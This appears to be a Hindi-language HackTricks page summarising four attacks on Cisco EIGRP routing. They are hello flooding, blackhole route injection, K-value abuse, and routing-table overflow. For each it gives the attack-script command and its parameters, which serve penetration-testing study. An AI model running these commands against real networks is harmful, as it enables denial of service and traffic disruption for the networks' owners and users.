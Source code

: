 # EIGRP हमले

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

**यह उन हमलों का सारांश है जो** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9) **में उजागर किए गए हैं।** अधिक जानकारी के लिए इसे देखें।

## **फेक EIGRP पड़ोसियों हमला**

- **उद्देश्य**: EIGRP हैलो पैकेट्स से राउटर CPU को ओवरलोड करना, जो संभावित रूप से एक सेवा की असुरक्षितता (DoS) हमले तक जा सकता है।
- **उपकरण**: **helloflooding.py** स्क्रिप्ट।
- **अमल**:
%%%bash
~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24
%%%
- **पैरामीटर**:
- `--interface`: नेटवर्क इंटरफेस को निर्दिष्ट करता है, जैसे `eth0`।
- `--as`: EIGRP स्वतंत्र प्रणाली संख्या को परिभाषित करता है, जैसे `1`।
- `--subnet`: उपनेट स्थान को सेट करता है, जैसे `10.10.100.0/24`।

## **EIGRP ब्लैकहोल हमला**

- **उद्देश्य**: एक गलत रूट डालकर नेटवर्क ट्रैफिक फ्लो को विघटित करना, जिससे एक काले गड्ढे की ओर ले जाता है जहां ट्रैफिक एक अस्तित्वहीन गंतव्य की ओर निर्देशित होता है।
- **उपकरण**: **routeinject.py** स्क्रिप्ट।
- **अमल**:
%%%bash
~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32
%%%
- **पैरामीटर**:
- `--interface`: हमले करने वाले सिस्टम इंटरफेस को निर्दिष्ट करता है।
- `--as`: EIGRP AS संख्या को परिभाषित करता है।
- `--src`: हमले करने वाले का IP पता सेट करता है।
- `--dst`: लक्ष्य सबनेट IP को सेट करता है।
- `--prefix`: लक्ष्य सबनेट IP का मास्क परिभाषित करता है।

## **K-मानों का दुरुपयोग हमला**

- **उद्देश्य**: संशोधित K-मानों को डालकर EIGRP डोमेन में निरंतर विघटन और पुनर्संयोजन बनाना, जिससे एक सेवा की असुरक्षितता हमला हो।
- **उपकरण**: **relationshipnightmare.py** स्क्रिप्ट।
- **अमल**:
%%%bash
~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100
%%%
- **पैरामीटर**:
- `--interface`: नेटवर्क इंटरफेस को निर्दिष्ट करता है।
- `--as`: EIGRP AS संख्या को परिभाषित करता है।
- `--src`: वैध राउटर का IP पता सेट करता है।

## **रूटिंग तालिका ओवरफ्लो हमला**

- **उद्देश्य**: राउटर की CPU और RAM को ताकत देने के लिए नकली रूटों से रूटिंग तालिका को भरना।
- **उपकरण**: **routingtableoverflow.py** स्क्रिप्ट।
- **अमल**:
%%%bash
sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50
%%%
- **पैरामीटर**:
- `--interface`: नेटवर्क इंटरफेस को निर्दिष्ट करता है।
- `--as`: EIGRP AS संख्या को परिभाषित करता है।
- `--src`: हमले करने वाले का IP पता सेट करता है।
